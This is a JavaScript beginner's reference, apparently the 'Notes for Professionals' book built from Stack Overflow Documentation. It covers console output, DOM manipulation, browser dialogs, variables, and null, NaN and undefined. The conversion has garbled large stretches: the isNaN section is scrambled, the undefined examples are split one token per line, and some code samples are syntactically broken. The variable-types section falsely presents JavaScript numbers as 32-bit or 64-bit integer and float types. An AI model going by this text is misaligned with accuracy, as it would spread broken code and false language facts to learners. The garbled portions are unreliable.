<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~ 01. javascript notes 4 pros logo (01) ~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ readme.md of js-notes4-pros.org ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

<!--{width="8.25in" height="11.663194444444445in"}-->

<h4>Contents</h4>

See end of document.

<h4>About</h4>

Please feel free to share this PDF with anyone for free, latest 
version of this book can be downloaded from:

<a href="https://goalkicker.com/JavaScriptBook">JS Notes 4 Pros</a>

This <i>JavaScript® Notes for Professionals</i> book is compiled from 
<a href="https://archive.org/details/documentation-dump.7z">Stack Overflow</a>.

<a href="https://archive.org/details/documentation-dump.7z">Documentation</a>, the
content is written by the beautiful people at Stack Overflow.

Text content is released under Creative Commons BY-SA, see credits at 
the end of this book whom contributed to the various chapters. Images 
may be copyright of their respective owners unless otherwise specified.

This is an unofficial free book created for educational purposes and 
is not affiliated with official JavaScript® group(s) or company(s) nor 
Stack Overflow. All trademarks and registered trademarks are the 
property of their respective company owners.

The information presented in this book is not guaranteed to be correct 
nor accurate, use at your own risk.

Please send feedback and corrections to [web@petercv.com].

<!--page 2-->
<h2 id="ch1">Chapter 1: Getting started with JavaScript</h2>

<h4>Version Release Date</h4>

1.  1997-06-01
2.  1998-06-01
3.  1998-12-01
<a href="http://www-archive.mozilla.org/js/language/ECMA-357.pdf">E4X</a> 2004-06-01 
<a href="http://www.ecma-international.org/publications/files/ECMA-ST-ARCH/ECMA-262%205th%20edition%20December%202009.pdf">5</a> 2009-12-01 
<a href="http://www.ecma-international.org/publications/files/ECMA-ST-ARCH/ECMA-262%205.1%20edition%20June%202011.pdf">5.1</a> 2011-06-01 
6.  2015-06-01
7.  2016-06-14
8.  2017-06-27
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~ readme.md of js-notes4-pros.org ~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch1-1">Section 1.1: Using console.log()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h4>Introduction</h4>

All modern web browsers, Node.js as well as almost every other 
JavaScript environments support writing messages to a console using a 
suite of logging methods. The most common of these methods is ().

In a browser environment, the () function is predominantly used for
debugging purposes.

<h4>Getting Started</h4>

Open up the JavaScript Console in your browser, type the following,
and press Enter:

<pre>
console.log("Hello, World!");
</pre>

This will log the following to the console:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

<!--{width="3.8916666666666666in" height="1.4236111111111112in"}-->

In the example above, the console.log() function prints Hello, World! to the console and returns <b>undefined</b>
(shown above in the console output window). This is because () has no 
explicit <i>return value</i>.

<h4>Logging variables</h4>

console.log() can be used to log variables of any kind; not only strings. Just pass
in the variable that you want to be displayed in the console, for example:

<pre>
<b>var</b>foo = &quot;bar&quot;;
console.log (foo);
</pre>

This will log the following to the console:

<!-- page 3 -->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!-- {width="5.954861111111111in" height="1.4777777777777779in"}-->

If you want to log two or more values, simply separate them with 
commas. Spaces will be automatically added between each argument 
during concatenation:

<pre>
var thisVar = 'first value';
var thatVar = 'second value';
console.log("thisVar:", thisVar, "and thatVar:", thatVar);
</pre>

This will log the following to the console:

<pre>
&gt; <b>var</b>thisVar = 'first value';
  <b>var</b>thatVar = 'second value';
  console.log("thisVar:", thisVar, "and thatVar:", thatVar);
</pre>

This will log the following to the console:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

<!-- {width="7.477777777777778in" height="0.9729166666666667in"} -->

<h4>Placeholders</h4>

You can use () in combination with placeholders:

<pre>
<b>var</b>greet="Hello", who="World";
console.log ("%s, %s!", greet, who);
</pre>

This will log the following to the console:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

<!--{width="6.990972222222222in" height="1.4868055555555555in"}-->

<h4>Logging Objects</h4>

Below we see the result of logging an object. This is often useful for 
logging JSON responses from API calls.

<pre>
console.log ( { 
  'Email': '', 
  'Groups': {}, 
  'Id': 33, 
  'IsHiddenInUI': <b>false</b>,
  'IsSiteAdmin': <b>false</b>, 
  'LoginName': 'i:0#.w\|virtualdomain\\user2',
  'PrincipalType': 1, 
  'Title': 'user2' 
} );
</pre>

This will log the following to the console:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!--{width="6.738888888888889in" height="1.7208333333333334in"}-->

<h4>Logging HTML elements</h4>

You have the ability to log any element which exists within the
<a href="https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction">
<i>DOM</i></a>.

In this case we log the body element:

<pre>
console.log ( document.body );
</pre>

This will log the following to the console:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!--{width="6.522222222222222in" height="2.3784722222222223in"}-->

<h4>End Note</h4>

For more information on the capabilities of the console, see the 
Console topic.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch1-2">Section 1.2: Using the DOM API</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

DOM stands for <b>D</b>ocument <b>O</b>bject <b>M</b>odel. It is an
object-oriented representation of structured documents like XML and HTML.

Setting the textContent property of an Element is one way to output
text on a web page.

For example, consider the following HTML tag:

<pre>
<b>&lt;p</b>id="paragraph"<b>&gt;&lt;/p&gt;</b>
</pre>

To change its textContent property, we can run the following JavaScript:

<pre>
document.getElementById("paragraph").textContent = "Hello, World";
</pre>

This will select the element that with the id paragraph and set its
text content to \"Hello, World\":

<pre>
<b>&lt;</b>id="paragraph"&gt;Hello, World<b>&lt;/p&gt;</b>
</pre>

<a href="http://jsbin.com/fuzijox/edit?html,js,console,output">(See also this demo)</a>

You can also use JavaScript to create a new HTML element programmatically. For example, 
consider an HTML document with the following body:

<pre>
<b>&lt;body&gt;</b>
  <b>&lt;h1&gt;</b>Adding an element<b>&lt;/h1&gt;</b>
<b>&lt;/body&gt;</b>
</pre>

In our JavaScript, we create a new <b>&lt;p&gt;</b>tag with a textContent property of 
and add it at the end of the html body:

<pre>
<b>var</b>element = document.createElement('p');
element.textContent = "Hello, World";
document.body.appendChild(element); //add the newly created element to the DOM
</pre>

That will change your HTML body to the following:

<pre>
<b>&lt;body&gt;</b>
  <b>&lt;h1&gt;</b>Adding an element<b>&lt;/h1&gt;</b>
  <b>&lt;p&gt;</b>Hello, World<b>&lt;/p&gt;</b>
<b>&lt;/body&gt;</b>
</pre>

Note that in order to manipulate elements in the DOM using JavaScript,
the JavaScript code must be run *after* the relevant element has been
created in the document. This can be achieved by putting the
JavaScript <b>\></b> tags *after* all of your other <b>\></b> content.
Alternatively, you can also use <a href="https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener">
an event listener</a> to listen to eg. <a href="https://developer.mozilla.org/en-US/docs/Web/API/GlobalEventHandlers/onload">
window\'s onload event</a>, adding your code to that event listener 
will delay running your code until after the whole content on your page has been loaded.

A third way to make sure all your DOM has been loaded, is 
<a href="https://stackoverflow.com/questions/779379/why-is-settimeoutfn-0-sometimes-useful">
to wrap the DOM manipulation code with a timeout function of 0 ms</a>.

This way, this JavaScript code is re-queued at the end of the
execution queue, which gives the browser a chance to finish doing some
non-JavaScript things that have been waiting to finish before
attending to this new piece of JavaScript.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch1-3">Section 1.3: Using window.alert()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The alert method displays a visual alert box on screen. The alert
method parameter is displayed to the user in <b>plain</b> text:

<pre>
window.alert(message);
</pre>

Because window is the global object, you can call also use the following shorthand:

<pre>
alert(message);
</pre>

So what does window.alert() do? Well, let's take the following example:

<pre>
alert('hello, world');
</pre>

In Chrome, that would produce a pop-up like this:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!--{width="5.225in" height="2.3152777777777778in"}-->

<h4>Notes</h4>

The alert method is technically a property of window object, but since
all window properties are automatically global variables, we can use
alert as a global variable instead of as a property of window meaning
you can directly use ().

Unlike using , alert acts as a modal prompt meaning that the code
calling alert will pause until the prompt is answered. Traditionally
this means that *no other JavaScript code will execute* until the
alert is dismissed:

<pre>
alert('Pause!');
console.log('Alert was dismissed');
</pre>

However the specification actually allows other event-triggered code
to continue to execute even though a modal dialog is still being
shown. In such implementations, it is possible for other code to run
while the modal dialog is being shown.

More information about usage of the alert method can be found in the
modals prompts topic.

The use of alerts is usually discouraged in favour of other methods
that do not block users from interacting with the page - in order to
create a better user experience. Nevertheless, it can be useful for
debugging.

Starting with Chrome 46.0, window.alert() is blocked inside an <b>&lt;iframe&gt;</b> 
<a href="https://developer.mozilla.org/en-US/docs/Web/API/Window/alert">
unless its sandbox attribute has the value allow-modal</a>.
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch1-4">Section 1.4: Using window.prompt()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

An easy way to get an input from a user is by using the () method.

<h4>Syntax</h4>

<pre>
prompt(text, \[<b>default</b>]);
</pre>

<ul>
  <li><b>text</b>: The text displayed in the prompt box.</li>
  <li><b>default</b>): A default value for the input field (optional).</li>
</ul>

<h4>Examples</h4>

<pre>
<b>var</b> age=prompt("How old are you?");
console.log(age); // Prints the value inserted by the user
</pre>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!--{width="4.603472222222222in" height="1.9548611111111112in"}-->

If the user clicks the <b>OK</b> button, the input value is returned.
Otherwise, the method returns <b>null</b>.

The return value of prompt is always a string, unless the user clicks
<b>Cancel</b>, in which that case it returns <b>null</b>. Safari is an
exception in that when the user clicks Cancel, the function returns an
empty string. From there, you can convert the return value to another
type, such as an integer.

<h4>Notes</h4>

<ul>
  <li>While the prompt box is displayed, the user is prevented from accessing 
    other parts of the page, since dialog boxes are modal windows.</li>
  <li>Starting with Chrome 46.0 this method is blocked inside an <b>&lt;iframe&gt;</b>
    unless its sandbox attribute has the value allow-modal.</li>
</ul>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch1-5">Section 1.5: Using window.confirm()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The window.confirm() method displays a modal dialog with an optional message and two
buttons, OK and Cancel.

Now, let\'s take the following example:

<pre>
result = window.confirm(message);
</pre>

Here, <b>message</b> is the optional string to be displayed in the dialog
and <b>result</b> is a boolean value indicating whether OK or Cancel was
selected (true means OK).

window.confirm() is typically used to ask for user confirmation before doing a
dangerous operation like deleting something in a Control Panel:

<pre>
<b>if</b> (window.confirm("Are you sure you want to delete this?")) { 
  deleteItem (itemId);
}
</pre>

The output of that code would look like this in the browser:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!--{width="4.603472222222222in" height="1.4597222222222221in"}-->

If you need it for later use, you can simply store the result of the
user\'s interaction in a variable:

<pre>

<b>var</b> deleteConfirm = window.confirm(\"Are you sure you want to
delete this?\");

</pre>

<h4>Notes</h4>

<ul>
  <li>The argument is optional and not required by the specification.</li>
  <li>Dialog boxes are modal windows - they prevent the user from accessing
    the rest of the program\'s interface until the dialog box is closed.
	For this reason, you should not overuse any function that creates a
	dialog box (or modal window). And regardless, there are very good reasons 
	to avoid using dialog boxes for confirmation.</li>
  <li>Starting with Chrome 46.0 this method is blocked inside an <b>&lt;iframe&gt;</b>
    unless its sandbox attribute has the value allow-modal.</li>
  <li>It is commonly accepted to call the confirm method with the window
    notation removed as the window object is always implicit. However, it
	is recommended to explicitly define the window object as expected
	behavior may change due to implementation at a lower scope level with
	similarly named methods.</li>
</ul>

<h2 id="ch1-6">Section 1.6: Using the DOM API (with graphical text: Canvas, SVG, or image file)</h2>

<h4>Using canvas elements</h4>

HTML provides the canvas element for building raster-based images.

First build a canvas for holding image pixel information.

<pre>
<b>var</b> canvas = document.createElement('canvas');
canvas.width = 500;
canvas.height = 250;
</pre>

Then select a context for the canvas, in this case two-dimensional:

<pre>
<b>var</b> ctx=canvas.getContext ('2d');
</pre>

Then set properties related to the text:

<pre>
ctx.font = '30px Cursive';
ctx.fillText ( "Hello world!", 50, 50 );
</pre>

Then insert the canvas element into the page to take effect:

<pre>
document.body.appendChild(canvas);
</pre>

<h4>Using SVG</h4>

SVG is for building scalable vector-based graphics and can be used
within HTML.

First create an SVG element container with dimensions:

<pre>
<b>var</b> svg=document.createElementNS('http://www.w3.org/2000/svg', 'svg');
svg.width=500;
svg.height=50;
</pre>

Then build a text element with the desired positioning and font
characteristics:

<pre>
<b>var</b> text = document.createElementNS('http://www.w3.org/2000/svg','text');
text.setAttribute('x','0');
text.setAttribute('y','50');
text.style.fontFamily='Times New Roman';
text.style.fontSize='50';
</pre>

Then add the actual text to display to the textelement:

<pre>
text.textContent='Hello world!';
</pre>

Finally add the text element to our svg container and add the svg
container element to the HTML document:

<pre>
svg.appendChild(text);
document.body.appendChild(svg);
</pre>

<h4>Image file</h4>

If you already have an image file containing the desired text and have
it placed on a server, you can add the URL of the image and then add
the image to the document as follows:

<pre>
<b>var</b> img=<b>new</b> Image ( );
img.src= 'https://i.ytimg.com/vi/zecueq-mo4M/maxresdefault.jpg';
document.body.appendChild(img);
</pre>

<h2 id="ch2">Chapter 2: JavaScript Variables</h2>

<b>variable_name {Required} The name of the variable: used when calling
it.</b>

= <b>&lbrack;Optional&rbrack;</b> Assignment (defining the variable)

value <b>{Required when using Assignment}</b> The value of a variable
<b>&lbrack;default: undefined&rbrack;</b>

Variables are what make up most of JavaScript. These variables make up
things from numbers to objects, which are all over JavaScript to make
one\'s life much easier.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch2-1">Section 2.1: Defining a Variable</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<pre>
<b>var</b> myVariable = "This is a variable!";
</pre>

This is an example of defining variables. This variable is called a
\"string\" because it has ASCII characters (A-Z, 0-9, !@#\$, etc.)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch2-2">Section 2.2: Using a Variable</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<pre>
<b>var</b> number1 = 5;
number1=3;
</pre>

Here, we defined a number called \"number1\" which was equal to 5. 
However, on the second line, we changed the value to 3. To show the 
value of a variable, we log it to the console or use ():

<pre>
console.log(number1); // 3
window.alert(number1); // 3 
</pre>

To add, subtract, multiply, divide, etc., we do like so:

<pre>
number1 = number1 + 5; // 3 + 5 = 8
number1 = number1 - 6; // 8 - 6 = 2
<b>var</b> number2 = number1 * 10; // 2 (times) 10 = 20
<b>var</b> number3 = number2 / number1; // 20 (divided by) 2 = 10;
</pre>

We can also add strings which will concatenate them, or put them
together. For example:

<pre>
<b>var</b> myString = "I am a " + "string!" ; // "I am a string!"
</pre>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch2-3">Section 2.3: Types of Variables</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<pre>
<b>var</b> myInteger = 12; // 32-bit number (from -2,147,483,648 to 2,147,483,647)
<b>var</b> myLong = 9310141419482 ; // 64-bit number (from -9,223,372,036,854,775,808 to
  9,223,372,036,854,775,807)
<b>var</b> myFloat = 5.5; // 32-bit floating-point number (decimal)
<b>var</b> myDouble = 9310141419482.22; // 64-bit floating-point number

<b>var</b> myBoolean = <b>true</b>; // 1-bit true/false (0 or 1)
<b>var</b> myBoolean2 = <b>false</b>;

<b>var</b> myNotANumber = <b>NaN</b>;
<b>var</b> NaN_Example = 0 / 0 ; // NaN: Division by Zero is not possible

<b>var</b> notDefined ; // undefined: we didn\'t define it to anything yet
window.alert(aRandomVariable); // undefined

<b>var</b> myNull=<b>null</b>; // null
<i>// etc...</i>
</pre>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch2-4">Section 2.4: Arrays and Objects</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<pre>
<b>var</b> myArray=[]; // empty array
</pre>

An array is a set of variables. For example:

<pre>
<b>var</b> favoriteFruits = &lbrack;"apple", "orange", "strawberry"&rbrack;;
<b>var</b> carsInParkingLot = &lbrack;"Toyota", "Ferrari", "Lexus"&rbrack;;
<b>var</b> employees = &lbrack;"Billy", "Bob", "Joe"&rbrack;;
<b>var</b> primeNumbers = &lbrack;2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31&rbrack;;
<b>var</b> randomVariables = &lbrack;2, "any type works", <b>undefined</b>, <b>null</b>, <b>true</b>, 2.51&rbrack;;

myArray = &lbrack;"zero" , "one" , "two" &rbrack;;
window.alert ( myArray &lbrack;0&rbrack;); // 0 is the first element of an array
                                           // in this case, the value would be "zero"
myArray = &lbrack;"John Doe\", "Billy"&rbrack;;
elementNumber = 1;

window.alert(myArray&lbrack;elementNumber&brack;); // Billy
</pre>

An object is a group of values; unlike arrays, we can do something
better than them:

<pre>
myObject = {};
john = {firstname: "John", lastname: "Doe", fullname: "John Doe"};
billy = {
  firstname: "Billy",
  lastname: <b>undefined</b>,
  fullname: "Billy"
};
window.alert(john.fullname); // John Doe
window.alert(billy.firstname); // Billy
</pre>

Rather than making an array &lbrack;"John Doe", "Billy"&rbrack; and calling myArray&lbrack;0&rbrack;, we
can just call john.fullanme and billy.fullname.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch3">Chapter 3: Built-in Constants</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-1">Section 3.1: null</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

<b>null</b> is used for representing the intentional absence of an object value and is a 
primitive value. Unlike <b>undefined</b>, it is not a property of the global object.

It is equal to <b>undefined</b> but not identical to it.

<pre>
<b>null</b> == <b>undefined</b>; // true
<b>null</b> === <b>undefined</b>; // false
</pre>

<b>CAREFUL</b>: The <b>typeof null</b> is 'object'.

<pre>
<b>typeof null</b>; // 'object';
</pre>

To properly check if a value is <b>null</b>, compare it with the strict equality operator.

<pre>
<b>var</b> a = <b>null</b>;

a === <b>null</b>; // true
</pre>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-2">Section 3.2: Testing for NaN using isNaN()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<pre>
<b>window.isNaN</b>
</pre>  

The global function () can be used to check if a certain value or
expression evaluates to <b>NaN</b>. This function (in short) first checks
if the value is a number, if not tries to convert it (*), and then
checks if the resulting value is <b>NaN</b>. For this reason, <b>this
testing method may cause confusion</b>.

(*) The "conversion" method is not that simple, see [ECMA-262
18.2.3](http://www.ecma-international.org/ecma-262/6.0/#sec-isnan-number)
for a detailed explanation of the algorithm.

These examples will help you better understand the isNaN() behavior:

<pre>
isNaN(<b>NaN</b>); *// true* isNaN(1); *// false: 1 is a number*
isNaN(-2e-4); *// false: -2e-4 is a number (-0.0002) in scientific
notation* isNaN(<b>Infinity</b>); *// false: Infinity is a number*
isNaN(<b>true</b>); *// false: converted to 1, which is a number*
isNaN(<b>false</b>); *// false: converted to 0, which is a number*
isNaN(<b>null</b>); *// false: converted to 0, which is a number*
isNaN(\"\"); *// false: converted to 0, which is a number* isNaN(\"
\"); *// false: converted to 0, which is a number* isNaN(\"45.3\");
*// false: string representing a number, converted to 45.3*
isNaN(\"1.2e3\"); *// false: string representing a number, converted
to 1.2e3* isNaN(\"Infinity\"); *// false: string representing a
number, converted to Infinity* isNaN(<b>new</b> Date); *// false: Date
object, converted to milliseconds since epoch* isNaN(\"10\$\"); *//
true : conversion fails, the dollar sign is not a digit*
isNaN(\"hello\"); *// true : conversion fails, no digits at all*
isNaN(<b>undefined</b>); *// true : converted to NaN* isNaN(); *// true :
converted to NaN (implicitly undefined)* isNaN(<b>function</b>(){}); *//
true : conversion fails* isNaN({}); *// true : conversion fails*

isNaN(\[1, 2\]); *// true : converted to \"1, 2\", which can\'t be
converted to a number*
  
  Number
  isNaN   (\[\]) and  isNaN   (\[   34   \]) both return <b>false</b>, but  isNaN

This last one is a bit tricky: checking if an Array is <b>NaN</b>. To do
this, the () constructor first converts the array to a string, then to
a number; this is the reason why (\[1, isNaN 
(\[          <b>true</b>
  <b>isNaN</b>
2\]) and \]) both return <b>true</b>: because they get converted to \"\",
\"34\", \"1,2\" and \"true\" respectively. In general, <b>an array is
considered NaN by () unless it only holds one element whose string
representation can be converted to a valid number</b>.

<pre>
Version ≥ 6
<b>Number.isNaN</b>
</pre>  

In ECMAScript 6, the () function has been implemented primarily to
avoid the problem of window.isNaN   () of forcefully converting the parameter to a  Number   .   isNaN
 number.                                                      
  Number                     .    isNaN                  (    <b>NaN</b>
    -  -

  

(), indeed, <b>doesn\'t try to convert</b> the value to a number before
testing. This also means that <b>only values of the type number, that
are also NaN, return true</b> (which basically means only )).
>

From <a href="http://www.ecma-international.org/ecma-262/6.0/#sec-number.isnan">
ECMA-262 20.1.2.4</a>:

When the Number .isNaN is called with one argument number, the following steps are taken:

1.  If Type(number) is not Number, return <b>false</b>.
2.  If number is <b>NaN</b>, return <b>true</b>.
3.  Otherwise, return <b>false</b>.

Some examples:

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.486805555555556in" height="4.891666666666667in"} -->
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-3">Section 3.3: NaN</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/NaN"><b>NaN</b></a> 
stands for "Not a Number." When a mathematical function or operation in JavaScript cannot return a specific 
number, it returns the value <b>NaN</b> instead.

[Number](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Number/NaN)
[.](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Number/NaN)   
[<b>NaN</b>](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Number/NaN)
    

It is a property of the global object, and a reference to 

<pre>
window.hasOwnProperty(\'NaN\'); // true
<b>NaN</b>; // NaN
</pre>

Perhaps confusingly, <b>NaN</b> is still considered a number.

<pre>
<b>typeof</b> <b>NaN</b>; // 'number'
</pre>

Don\'t check for <b>NaN</b> using the equality operator. See isNaN instead.

<pre>
<b>NaN</b> == <b>NaN</b> // false
<b>NaN</b> === <b>NaN</b> // false
</pre>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-4">Section 3.4: undefined and null</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

At first glance it may appear that <b>null</b> and <b>undefined</b> are
basically the same, however there are subtle but important
differences.

<b>undefined</b> is the absence of a value in the compiler, because where
it should be a value, there hasn\'t been put one, like the case of an
unassigned variable.

<b>undefined</b> is a global value that represents the absence of an
assigned value.

  
<b>typeof</b> <b>undefined</b> === \'undefined\'
  

  

<b>null</b> is an object that indicates that a variable has been
explicitly assigned \"no value\".

  
  <b>typeof</b> <b>null</b> === \'object\'
  

  

Setting a variable to <b>undefined</b> means the variable effectively
does not exist. Some processes, such as JSON serialization, may strip
<b>undefined</b> properties from objects. In contrast, <b>null</b>
properties indicate will be preserved so you can explicitly convey the
concept of an \"empty\" property.
>
The following evaluate to <b>undefined</b>:
>
A variable when it is declared but not assigned a value (i.e. defined)

<b>let</b>

foo

;

console.

log

(

\'is undefined?\'

,

foo

===

<b>undefined</b>

)

;

*// is undefined? true*

Accessing the value of a property that doesn\'t exist

<b>let</b>

foo

=

{

a

:

\'a\'

}

;

console.

log

(

\'is undefined?\'

,

foo.

b

===

<b>undefined</b>

)

;

*// is undefined? true*

